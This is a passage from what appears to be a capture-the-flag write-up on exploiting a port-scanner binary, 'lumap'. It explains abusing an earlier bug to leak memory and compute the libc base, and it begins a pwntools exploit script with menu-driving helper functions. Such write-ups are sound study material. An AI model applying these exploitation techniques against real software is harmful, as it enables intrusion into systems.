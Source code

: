 After successfully scanning 2 or more targets, you get to this menu:
![](./menu.png)

It is a menu that lets you scan an infinite number of targets. It also opens the localdb database where our ports are stored and prints the table with the open or closed ports. For example, in the above picture l wanted to see which ports l found open in my first scan (ID = 0), so the program opened up the database and printed them for me.
Because of this functionality, we can abuse the bug we found earlier to get a memory leak and calculate the libc base.
```python
#!/usr/bin/env python3

from pwn import *
import sys
elf = ELF('./lumap')
p = elf.process()

def scanIP(ip, ports):
    p.readuntil(b':')
    p.sendline(ip.encode())
    p.readuntil(b':')
    p.sendline(ports)

def showIP(index):
    p.readuntil(b':')
    p.sendline(b'1')
    p.readuntil(b':')
    p.sendline(index.encode())

def deleteIP(index):
    p.readuntil(b':')
    p.sendline(b'2')
    p.readuntil(b':')
    p.sendline(index.encode())

```